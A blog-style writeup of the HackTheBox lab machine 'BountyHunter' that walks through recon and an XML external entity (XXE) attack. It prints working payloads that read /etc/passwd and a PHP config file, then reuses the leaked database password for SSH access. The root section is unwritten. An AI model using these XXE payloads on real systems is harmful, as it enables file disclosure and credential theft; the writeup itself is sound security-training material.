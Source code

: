 ```yaml
---
layout: post
title:  "HackTheBox BountyHunter"
date:   2021-10-03
category: Writeup
image: assets/img/blog/BountyHunter.png
author: Lukas Marckmiller
tags: ctf
---
```


# HackTheBox BountyHunter Writeup!

Hi! Thanks for reading my Writeup for the HTB Machine *BountyHunter*


## User.txt

First, i started with running [autorecon](https://github.com/Tib3rius/AutoRecon) (`autorecon <ip>)`. Its a pretty nice tool for gathering information about open ports, services bound to ports and possible attack vectors.
Taking a look on the results of  [autorecon](https://github.com/Tib3rius/AutoRecon) it reveals two open ports, SSH (**22**) and HTTP (**80**).  
![nmap](/assets/img/blog/bhnmap.png)
I manually visited the website on port 80, found a php script and started running `gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://<ip> -x php`. It revealed following files and directories:

`/resources,/index.php,portal.php,/assets, /js, /css, db.php`

Next i manually checked the discovered directories and found a tasklist in `http://\<ip>/resources/README.txt` containing following text:

> Tasks:
> 
> [ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
> [X] Write tracker submit script
> [ ] Connect tracker submit script to the database
> [X] Fix developer group permissions

We should keep this information in mind. Also theres a file called `bountylog.js` containing JavaScript code. 

    function returnSecret(data) {
    	return Promise.resolve($.ajax({
                type: "POST",
                data: {"data":data},
                url: "tracker_diRbPr00f314.php"
                }));
    }
    
    async function bountySubmit() {
    	try {
    		var xml = `<?xml  version="1.0" encoding="ISO-8859-1"?>
    		<bugreport>
    		<title>${$('#exploitTitle').val()}</title>
    		<cwe>${$('#cwe').val()}</cwe>
    		<cvss>${$('#cvss').val()}</cvss>
    		<reward>${$('#reward').val()}</reward>
    		</bugreport>`
    		let data = await returnSecret(btoa(xml));
      		$("#return").html(data)
    	}
    	catch(error) {
    		console.log('Error:', error);
    	}
    }

Analysing the code we can see that it sends a post request with an xml payload to `tracker_diRbPr00f314.php`. I thought about it for a second and got the idea: 
XML + Webrequest = [XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_%28XXE%29_Processing). So i started BurpSuite, moved to `http://<ip>/log_submit.php` and caught the post request to `http://<ip>/tracker_diRbPr00f314.php` which contained  a base64 encoded payload. A URL and base64 decoding later i got the raw request. 

    <?xml  version="1.0" encoding="ISO-8859-1"?>
    		<bugreport>
    		<title>1</title>
    		<cwe>2</cwe>
    		<cvss>3</cvss>
    		<reward>4</reward>
    		</bugreport>

In  Burp I moved to the Repeater and built my payload with the help of [this list](https://github.com/payloadbox/xxe-injection-payload-list).

    <?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
    		<bugreport>
    		<title>&ent;</title>
    		<cwe>2</cwe>
    		<cvss>3</cvss>
    		<reward>4</reward>
    		</bugreport>

Base64 and URL encoded i got the contents of the passwd file. 

    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    ...
    development:x:1000:1000:Development:/home/development:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin

So my XXE attack was successful. Unfortunately i couldn't read any other found files like `db.php` or `portal.php` in my expected web root direcotory at `/var/www/html/`. So i was looking for a different payload to avoid absolute paths and found an alternative payload on [hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file).

    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/db.php"> ]>
    <data>&example;</data>

It revealed the contents of db.php.

    <?php
    // TODO -> Implement login system with the database.
    $dbserver = "localhost";
    $dbname = "bounty";
    $dbusername = "admin";
    $dbpassword = "m19RoAU0hP41A1sTsq6K";
    $testuser = "test";
    ?>

Nice! So we got a database user and a password. Unfortunately i couldn't find anything else interesting so i moved to the ssh port. Previously we found a user named `development`in `/etc/passwd`, if we try `ssh development@<ip>` we are prompted for a password. We haven't found any password for this user so i just tried the password from the `db.php` file and .... it worked! 

    development@bountyhunter:~$ id   
    uid=1000(development) gid=1000(development) groups=1000(development)
  So we can retrieve the first flag.

## Root.txt
... soon

